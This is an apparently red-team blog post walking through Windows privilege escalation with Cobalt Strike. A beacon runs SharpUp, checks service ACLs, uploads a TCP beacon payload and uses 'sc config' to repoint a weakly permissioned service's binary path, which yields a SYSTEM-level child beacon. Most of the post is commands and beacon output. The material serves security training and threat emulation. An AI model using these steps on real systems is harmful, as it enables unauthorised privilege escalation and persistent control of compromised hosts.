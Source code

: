 ```yaml
---
title: "Cobalt strike abuse service for system privileges"
date: "2024-03-14"
layout: post
---
```


This scenario is based upon an assumed compromise with lower privileges and after doing some endpoint recon we find a service that allows us to configure an exe of our choosing.  It's a common technique to look for vulnerable or misconfigured services as they tend to run with higher privileges.  Assuming you get passed EDR with the assumed compromised some of these techniques can be noisy but are TTPs threat actors employ. I'm using Cobalt as my C2 of choice but these techniques can be leveraged with plent of other popular C2 frameworks.


We'll need two listeners for this scenario (http & tcp).  The http listener is tied to the initial compromise and we'll use the beacon_bind_tcp as the second listener which will aid in elevating our privileges.  Below are my settings for both http and tcp listeners with cobalt.

![blah](/assets/http.png)

![blah](/assets/tcp-local.png)

Once on the compromised endpoint we can run a tool such as SharpUp to determine any priv esc opportunities.

```bash
[03/02 00:47:24] beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit
[03/02 00:47:25] [*] Tasked beacon to run .NET program: SharpUp.exe audit
[03/02 00:47:25] [+] host called home, sent: 149254 bytes
[03/02 00:47:26] [+] received output:

=== Modifiable Service Binaries ===
	Service 'VulnService1' (State: Running, StartMode: Auto) : C:\Program Files\Vulnerable Services\Service.exe
```

So SharpUp identifed a service where we can modify the service binary but doesn't show exactly what the permissions are so we need to dig a little deeper.  We can leverage a powershell script to see what service rights we have.

```bash
[03/02 01:21:24] beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
[03/02 01:21:24] [*] Tasked beacon to import: C:\Tools\Get-ServiceAcl.ps1
[03/02 01:21:24] [+] host called home, sent: 2156 bytes
[03/02 01:21:46] beacon> powershell Get-ServiceAcl -Name VulnService | select -expand Access
[03/02 01:21:46] [*] Tasked beacon to run: Get-ServiceAcl -Name VulnService2 | select -expand Access
[03/02 01:21:46] [+] host called home, sent: 425 bytes
[03/02 01:21:50] [+] received output:

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
```

We can see that all Authenticated Users have ChangeConfig, Start and Stop privileges over this service. We can abuse these weak permissions by changing the binary path of the service.  So instead of it running C:\Program Files\Vulnerable Services\Service.exe we can have it run something like C:\Temp\payload.exe.  If you haven't already go into Cobalt and create the tcp payload that leverages the tcp listener.  Next we'll configure the service to use our payload versus the service executable of the original service.

```bash
beacon> upload C:\Payloads\tcp-local.exe
beacon> run sc config VulnService binPath= C:\Temp\tcp-localexe
beacon> run sc qc VulnService
```

You may need to stop and start the service so keep that in mind.  Once the service is up and running with payload we pointed it too we can then connect to our localhost to hopefully have a beacon with elevated prvileges.

```bash
[03/02 01:36:36] beacon> connect localhost 4444
[03/02 01:36:36] [*] Tasked to connect to localhost:4444
[03/02 01:36:36] [+] host called home, sent: 20 bytes
[03/02 01:36:36] [+] established link to child beacon: 10.10.123.102
```

![blah](/assets/system-privs.png)

We can see from the screenshot that we were succesful in obtaing a call back with system privileges.
